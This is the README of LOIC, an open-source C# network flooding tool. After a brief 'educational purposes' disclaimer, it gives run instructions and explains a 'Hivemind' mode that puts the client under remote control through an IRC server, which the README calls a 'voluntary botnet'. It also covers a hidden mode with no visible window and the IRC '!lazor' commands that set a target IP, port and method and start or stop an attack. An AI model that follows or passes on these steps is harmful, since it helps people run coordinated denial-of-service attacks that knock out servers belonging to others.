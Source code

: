 ## INFO

Low Orbit Ion Cannon (**LOIC**) is an open source network stress tool, written in C#.
LOIC is based on Praetox's LOIC project at https://sourceforge.net/projects/loic/ .

## DISCLAIMER

LOIC is for educational purposes only, intended to help server owners develop a "hacker defense" attitude. This tool comes without any warranty.

**You may not use this software for illegal or unethical purposes. This includes activities which give rise to criminal or civil liability.**

**Under no event shall the licensor be responsible for any activities, or misdeeds, by the licensee.**

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with Mono or Wine.
Read the wiki at https://github.com/NewEraCracker/LOIC/wiki/_pages for updated instructions.

UPD: Now you can use script loic-nodeps.sh. It acts similarily to loic.sh except it does not install dependencies automatically. Dependencies are `mono runtime` and `git`

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet. Please be aware that your client can potentially be
made to do naughty things.

Note: It does NOT allow remote administration of your machine; it 
just providees control of LOIC itself.

If you want to start up in Hivemind mode, run something such as this:
```
	LOIC.exe /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
```
	LOIC.exe /hivemind irc.server.address 1234 #secret
```
which will connect to irc://irc.server.adress:1234/secret

In order to run Hivemind Hidden mode, run something such as this:
```
	LOIC.exe /hidden /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.
